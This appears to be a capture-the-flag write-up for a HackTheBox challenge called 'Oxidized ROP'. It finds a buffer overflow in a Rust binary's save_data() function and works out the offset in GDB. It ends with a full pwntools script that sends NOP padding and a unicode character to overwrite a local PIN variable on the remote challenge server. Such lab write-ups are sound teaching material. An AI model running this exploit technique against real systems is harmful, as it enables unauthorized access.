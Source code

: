 # Oxidized ROP

> Write-up author: jon-brandy


## Lessons Learned:
- RUST code review.
- Local Variable Overwrite using unicode characters.

## DESCRIPTION:

Our workshop is rapidly oxidizing and we want a statement on its state from every member of the team! > flag in `/challenge/flag.txt`

## HINT:
- NONE

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab601b6c-8a5f-44ac-8f83-d71adeb32830)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5753d15e-03a9-4c69-8e98-78da40535ba0)


2. Noticed, the challenge author disclosed the source code. Hence no need to decompile the binary **for now**.
3. Upon reviewing the **rust** code, found a BOF vuln at the `save_data()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cbd9971-2815-4847-9bed-f3b34e2b6e98)


4. Based from the snippet code above, we can conclude that `dest` is a mutable reference to an array of `u8` with fixed size of `INPUT_SIZE` --> 200 chars.
5. Then it tries to copy characters from the `src` string to the `dest` buffer. However, the function does not check whether the length of the `src` string exceeds the size of the `dest`  buffer before copying.
6. This could lead to Buffer Overflow.
7. Next, upon reviewing other LOCs, seems our target is to modify the pin value to **123456**. This function can be accessed at menu **2**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b3ed479-8d3f-458a-bebb-795e132b5820)


8. If we select the second option, we're not allowed to enter a value for the `login_pin`.
9. It's because a global variable named `PIN_ENTRY_ENABLED` os set to false at the beginning. However the pin still checked.
10. So our objective is to utilize the overflow vuln to overwrite the value for local variable `login_pin`.
11. Reviewing the first menu, noticed a `read_user_input()` usage, it's similiar to `gets()` in C. Noticed that `input_buffer` variable is used as the `src` which the boundary is not checked.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63c4d890-5296-4717-b312-442da756842f)


12. Another things to note in rustpwn, to modify the variable value in rust, we need to encode it so it has wider range of action.
13. Now let's identify the offset.

> USING GDB

```
To identify the offset:

- Starts with send 8 A's then CTRL+C.
- Remembering PIE is enabled, find an address that ends with 11223344.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a86723c4-2f38-43ff-87c1-cccd7763e5d8)


14. Noticed our input not stored as 0x4141414141414141. Instead, each of them has a length of 4 bytes.
15. At this condition the formula to calculate the offset is:

```
p (0x7fffffffdab0 - 0x7fffffffd918) / 4
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c9af6b74-8554-488d-8db3-b15422d54d5b)


> RESULT --> 102

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a2a8543b-5672-4816-b479-2728989e36fd)


16. Great! Let's send our payload remotely.

> FULL SCRIPT

```py
from pwn import *

exe = './oxidized-rop'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.63.83',51413)
padding = 102
p = flat([
    asm('nop') * padding,
    chr(123456).encode() 
])

sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', p)
sh.sendlineafter(b':', b'2')

# gdb.attach(sh)
sh.interactive()
```

> RESULT

